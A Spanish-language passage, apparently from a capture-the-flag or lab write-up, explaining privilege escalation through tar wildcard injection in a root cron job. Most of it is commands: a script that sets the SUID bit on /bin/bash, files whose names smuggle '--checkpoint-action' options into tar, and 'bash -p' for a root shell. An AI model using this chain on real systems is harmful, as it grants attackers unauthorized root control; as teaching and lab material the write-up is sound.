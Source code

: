 Saviendo esto estamos intuiendo que la tarea cron ejecuta un comando del estilo: 
```bash
 tar -cvf backup/test.tar.gz /home/alekos/development/* 
```
.
Aqui el problema es que si el comando es este, el simbolo 
```bash
 * 
```
 permitteria burlar el comando tar con breakpoints. Lo que queremos ejecutar seria
el comando siguiente:

```bash
tar -cvf backup/test.tar.gz /home/alekos/development/* --checkpoint=1 --checkpoint-action=exec/bin/sh
```

El echo es que si el comando de la tarea cron tiene el asterisco y que ficheros tienen nombres como 
```bash
 --checkpoint=1 
```
 y 
```bash
 --checkpoint-action=exec/bin/sh 
```
,
en vez de copiarlos, los utilizaria como argumentos del proprio comando tar.

```bash
touch privesc
chmod +x privesc

nano privesc

############privesc content##############3

#!/bin/bash

chmod 4755 /bin/bash
```

```bash
touch -- '--checkpoint=1'
touch -- '--checkpoint-action=exec=sh privesc'
```

Ya esta esperamos hasta el proximo run de la tarea cron.

```bash
watch -n 1 ls -l /bin/bash -d
```

Cuando vemos que la /bin/bash tiene el 
```bash
 s 
```
 de SUID podemos convertirnos en root

```bash
bash -p
```

